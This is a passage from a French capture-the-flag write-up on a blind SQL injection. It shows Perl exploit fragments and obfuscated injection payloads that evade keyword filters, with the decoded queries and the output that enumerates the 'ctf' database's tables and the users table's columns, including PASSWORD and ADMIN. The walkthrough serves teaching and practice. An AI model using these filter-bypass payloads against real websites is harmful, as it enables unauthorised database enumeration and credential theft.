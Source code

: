 ```ndh,1%2b(SELECT (CASE WHEN 1<2 THEN 1 ELSE 0 END))``` 
		}  
	}  

	say "[*] Retrieved data: " . $juicy;  


Output :  
```  
Found content: CTF  
[*] Retrieved data: CTF  
```  
  
  
## Database discovery  

Ok, maintenant que nous avons un exploit nous pouvons injecter des requêtes SQL afin de déterminer la structure de notre cible :).  

Nous avons le nom de la base de données : `ctf`, récupérons le nom des différentes tables de celle-ci :  

``` my $query = "SE/**/LECT%0BGRO/**/UP_CO/**/NCAT%28ta/**/ble_n/**/ame%29F/**/ROM%0Binfo/**/rmation_s/**/chema.tab/**/les%0BWHE/**/RE%0Btable_schema%0BIN%28'ctf'%29"; ```  

Décodé :  
```SELECT GROUP_CONCAT(table_name FROM information_schema.tables WHERE table_schema IN 'ctf'```  
  
Output :  
```  
Found content: LANGUAGES  
Found content: NEWS  
Found content: SECTIONS  
Found content: USERS  
[*] Retrieved data: LANGUAGES,NEWS,SECTIONS,USERS  
```  
  
La base de données est donc constituée des tables suivantes :  

- languages
- news
- sections
- users
  
La table qui nous intéresse est `users` (intuition ? :))  
  
La requête suivante nous remonte les différents champs de la table `users`  
  
```$query = "SE/**/LECT%0B(GRO/**/UP_CO/**/NCAT%28colu/**/mn_na/**/me%29)F/**/ROM%0Binfo/**/rmation_s/**/chema.colu/**/mns%0BWH/**/ERE%0Btabl/**/e_na/**/me%0BIN('us/**/ers')";```  
  
Décodé :  
``` SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name IN('users') ```  
  
Output :  

	Found content: ID  
	Found content: NAME  
	Found content: SURNAME  
	Found content: PASSWORD  
	Found content: ADMIN 
	 
	[*] Retrieved data: ID,NAME,SURNAME,PASSWORD,ADMIN  
 
La table est donc constituée des champs suivants :  
  
- id
```